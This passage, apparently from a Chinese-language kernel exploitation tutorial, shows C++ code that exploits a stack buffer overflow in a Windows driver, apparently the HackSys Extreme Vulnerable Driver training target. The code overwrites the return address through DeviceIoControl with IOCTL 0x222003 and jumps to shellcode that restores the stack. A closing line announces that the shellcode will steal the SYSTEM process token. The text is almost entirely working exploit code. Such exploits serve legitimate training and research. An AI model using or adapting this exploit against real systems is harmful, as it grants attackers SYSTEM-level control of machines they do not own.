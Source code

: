```cpp
		popad;
            
            //eax里面存放返回值，确保为正确
		xor eax,eax;
            //这两步的操作是因为BufferOverflowStackIoctlHandle在函数结尾处使用的。
            //是为了确保栈平衡使用的。
            //当IrpDeviceIoCtlHandler函数进入BufferOverflowStackIoctlHandler后会先保存IrpDeviceIoCtlHandler函数的ebp，所以我们的shellcode函数等价于BufferOverflowStackIoctlHandler函数，当我们出shellcode函数的时候，我们也要将IrpDeviceIoCtlHandler函数原来的ebp还原回去。
		pop ebp;
            //此时使用retn函数返回IrpDeviceIoCtlHandler函数，但是这个函数入栈了2个参数，我们把这两个参数也要弹出去。
		retn 8;
	}
}

int _tmain(int argc, _TCHAR* argv[])
{
	HANDLE hDevice = CreateFile(
		DEVICE_LINK_NAME,
		GENERIC_READ | GENERIC_WRITE,
		FILE_SHARE_READ | FILE_SHARE_WRITE,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL);

	char buffer[0x824] ={0};
	memset(buffer,0x41,0x820);
        //a.取&buffer[0x820]的地址
        //b.*(DWORD*) (&buffer[0x820])把地址里面的数据换成shenllcode的地址
	*(DWORD*) (&buffer[0x820]) = (DWORD)shellcode;

	char buffer2[50] ={0};
	DWORD len = 0;
	BOOL IsOk = DeviceIoControl(hDevice,0x222003,buffer,sizeof(buffer),buffer2,sizeof(buffer2),&len,NULL);
	if (IsOk == FALSE)
	{
		int LastError = GetLastError();
		printf("LastError=%d \n",LastError);
	}

	CloseHandle(hDevice);
	hDevice = NULL;


	system("pause");
	return 0;
}

```
##### 裸函数--2，填充功能
在这里我们将此进程的Token修改为system进程的Token，然后创建的进程就拥有了system权限了。
